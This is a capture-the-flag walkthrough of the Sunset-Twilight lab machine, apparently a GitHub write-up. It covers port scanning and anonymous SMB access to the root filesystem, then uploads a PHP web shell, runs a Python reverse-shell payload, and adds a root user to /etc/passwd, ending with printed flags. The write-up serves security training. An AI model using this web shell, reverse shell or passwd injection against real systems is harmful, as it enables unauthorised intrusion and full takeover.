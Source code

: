 # Sunset-Twilight

Lets check the IP address ➡️

![Untitled](Sunset-Twilight/Untitled.png)

```bash
IP : 10.0.2.45
```

## Port Scan Results ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Twilight]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.45
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-04 13:40 IST
Nmap scan report for 10.0.2.45
Host is up (0.0025s latency).
Not shown: 65526 closed tcp ports (reset)
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 43e945ecf45bede96447434339969dc9 (RSA)
|   256 ed67ad310417efcf750205db889497a0 (ECDSA)
|_  256 ed41e5d1b2232cd590592a378bda31c1 (ED25519)
25/tcp    open  smtp        Exim smtpd 4.92
| smtp-commands: twilight Hello nmap.scanme.org [10.0.2.27], SIZE 52428800, 8BITMIME, PIPELINING, CHUNKING, PRDR, HELP
|_ Commands supported: AUTH HELO EHLO MAIL RCPT DATA BDAT NOOP QUIT RSET HELP
80/tcp    open  http        Apache httpd 2.4.38 ((Debian))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
2121/tcp  open  ftp         pyftpdlib 1.5.6
| ftp-syst: 
|   STAT: 
| FTP server status:
|  Connected to: 10.0.2.45:2121
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--   1 root     root           35 Jul 16  2020 22253251-65325.twilight
3306/tcp  open  mysql       MySQL 5.5.5-10.3.22-MariaDB-0+deb10u1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.22-MariaDB-0+deb10u1
|   Thread ID: 39
|   Capabilities flags: 63486
|   Some Capabilities: IgnoreSigpipes, Speaks41ProtocolOld, Support41Auth, ConnectWithDatabase, SupportsTransactions, FoundRows, InteractiveClient, IgnoreSpaceBeforeParenthesis, LongColumnFlag, SupportsCompression, SupportsLoadDataLocal, Speaks41ProtocolNew, ODBCClient, DontAllowDatabaseTableColumn, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: 9}/mZY0%fSOod%,L{G1]
|_  Auth Plugin Name: mysql_native_password
8080/tcp  open  http        PHP cli server 5.5 or later
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Login - powered by Easy File Sharing Web Server
63525/tcp open  http        PHP cli server 5.5 or later
|_http-title: Login - powered by Easy File Sharing Web Server
MAC Address: 08:00:27:54:08:C8 (Oracle VirtualBox virtual NIC)
Service Info: Host: twilight; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Enumeration ⤵️

![Untitled](Sunset-Twilight/Untitled%201.png)

Now I also found smb services lets enumerate it also →

## SMB Enumeration ⤵️

![Untitled](Sunset-Twilight/Untitled%202.png)

Now I have a directory to Recon further `WRKSHARE` Lets try for smb shell →

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Twilight]
└─$ smbclient -N //10.0.2.45/WRKSHARE/
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Jul  9 04:27:09 2020
  ..                                  D        0  Thu Jul  9 04:27:09 2020
  root                                D        0  Thu Jul 16 19:20:46 2020
  run                                 D        0  Thu May  4 13:40:22 2023
  lost+found                          D        0  Thu Jul  9 03:38:46 2020
  initrd.img                          N 25814661  Thu Jul  9 04:28:16 2020
  etc                                 D        0  Thu May  4 13:40:13 2023
  proc                                D        0  Thu May  4 13:40:17 2023
  vmlinuz                             N  5274864  Sun Jun  7 21:12:22 2020
  initrd.img.old                      N 25807574  Thu Jul  9 04:28:02 2020
  opt                                 D        0  Thu Jul  9 03:39:01 2020
  srv                                 D        0  Thu Jul  9 03:39:01 2020
  sys                                 D        0  Thu May  4 13:40:05 2023
  lib64                               D        0  Thu Jul  9 03:39:08 2020
  sbin                                D        0  Thu Jul 16 19:23:39 2020
  media                               D        0  Thu Jul  9 03:38:46 2020
  bin                                 D        0  Thu Jul 16 17:52:20 2020
  usr                                 D        0  Thu Jul  9 03:39:01 2020
  lib32                               D        0  Thu Jul  9 03:38:56 2020
  dev                                 D        0  Thu May  4 13:40:11 2023
  lib                                 D        0  Thu Jul  9 07:50:29 2020
  vmlinuz.old                         N  5274864  Mon Apr 27 10:35:39 2020
  libx32                              D        0  Thu Jul  9 03:38:56 2020
  home                                D        0  Thu Jul  9 04:45:56 2020
  mnt                                 D        0  Thu Jul  9 03:39:01 2020
  var                                 D        0  Thu Jul  9 05:33:27 2020
  boot                                D        0  Thu Jul  9 04:36:53 2020
  tmp                                 D        0  Thu May  4 13:40:22 2023

		7158264 blocks of size 1024. 4369328 blocks available
```

I got whole root directory of victim machine so It good for me lets upload a reverse shell in `/var/www/html/` location →

```bash
smb: \var\www\html\> put cmd.php
putting file cmd.php as \var\www\html\cmd.php (4.3 kb/s) (average 119.6 kb/s)
```

cmd.php content →

```bash
<?php
system($_GET['cmd']);
?>
```

In response to that I got this →

![Untitled](Sunset-Twilight/Untitled%203.png)

So lets run our python payload for reverse shell →

```bash
http://10.0.2.45/cmd.php?cmd=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.0.2.27%22,4444));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/bash%22,%22-i%22]);%27
```

![Untitled](Sunset-Twilight/Untitled%204.png)

Now I tried finding SUIDs and GUISs but no luck then I got this →

![Untitled](Sunset-Twilight/Untitled%205.png)

Now I can add a user in this file and run as root →

First we need to choose a password, salt it and hash the result. openssl to the rescue.

Flags:

- -`1` what hashing algorithm to use. In our use case it doesnt matter, therefore we use MD5 which should be avoided in real world PT as it is not secure.
- -`salt salt` string to use as salt. I choose the string salt
- `password` clear text password we would like to use.

```bash
$ openssl passwd -1 -salt salt password
$1$salt$qJH7.N4xYta3aEG/dfqo/0
```

we need to add some data in order for it to be aligned with the `/etc/passwd` format. This is the final result:

```bash
shiv:$1$salt$qJH7.N4xYta3aEG/dfqo/0:0:0::/root:/bin/bash
```

I named the user `shiv`. now lets write into the `/etc/passwd` file with nano →

![Untitled](Sunset-Twilight/Untitled%206.png)

```bash
www-data@twilight:/$ su shiv
Password: 
root@twilight:/# whoami
root
root@twilight:/#
root@twilight:/# cd /root
root@twilight:~# ls
root.txt
root@twilight:~# cat root.txt
(\ 
\'\ 
 \'\     __________  
 / '|   ()_________)
 \ '/    \ ~~~~~~~~ \
   \       \ ~~~~~~   \
   ==).      \__________\
  (__)       ()__________)

34d3ecb1bbd092bcb87954cee55d88d3

Thanks for playing! - Felipe Winsnes (@whitecr0wz)
root@twilight:~#
```

Now I am the boss root —> lets see the user.txt file now ➡️

```bash
root@twilight:/home/miguel# cat user.txt 
6b963e69f7b4a6205513973e4cace702
root@twilight:/home/miguel#
```